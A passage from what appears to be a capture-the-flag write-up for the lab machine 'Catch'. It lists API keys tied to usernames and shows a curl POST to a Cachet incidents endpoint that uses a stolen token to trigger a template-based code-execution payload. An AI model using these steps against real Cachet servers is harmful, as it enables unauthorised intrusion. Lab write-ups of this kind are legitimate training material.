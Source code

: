 
| username | api_key              |
|----------|----------------------|
| john     | 7GVCqTY5abrox48Nct8j |
| admin    | rMSN8kJN9TPADl2cWv8N |


**Testing out RCE**
 Saving the payload as template

![6](../../resources/catch/6.png)

 Sending a POST request with Header `X-Cachet-Toekn` set to `api_key` of user to execute our payload.

```shell
┌──(kali㉿kali)-[~/Desktop/Catch]
└─$ curl -X POST -H "X-Cachet-Token: 7GVCqTY5abrox48Nct8j" -d "visible=0&status=1&name=aaa&template=aaa" http://catch.htb:8000/api/v1/incidents | jq
```
